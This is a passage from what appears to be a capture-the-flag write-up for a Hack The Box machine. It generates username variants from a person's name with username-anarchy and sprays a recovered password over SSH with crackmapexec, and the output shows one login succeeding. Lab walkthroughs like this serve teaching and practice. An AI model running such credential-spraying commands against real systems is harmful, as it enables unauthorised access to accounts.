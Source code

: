 ![](/img/image-20230327211109266.png)

But, they are both signed Thomas Keller.

### SSH

#### Usernames

With a user's name and a password, I'll try to come up with different
variations of usernames that could come from that first and last name.
Initially I just made a list by hand, but it's probably easier to just
use
[username-anarchy](https://github.com/urbanadventurer/username-anarchy)
like I did on
[Absolute](/htb-absolute.md#generate-users-list):



    oxdf@hacky$ /opt/username-anarchy/username-anarchy thomas keller | tee usernames 
    thomas
    thomaskeller
    thomas.keller
    thomaske
    thomkell
    thomask
    t.keller
    tkeller
    kthomas
    k.thomas
    kellert
    keller
    keller.t
    keller.thomas
    tk



#### Brute

To quickly check these, I'll use `crackmapexec`:



    crackmapexec ssh 10.10.11.206 -u usernames -p denjanjade122566
    SSH         10.10.11.206    22     10.10.11.206     [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaskeller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomas.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomaske:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomkell:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] thomask:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [-] t.keller:denjanjade122566 Authentication failed.
    SSH         10.10.11.206    22     10.10.11.206     [+] tkeller:denjanjade122566
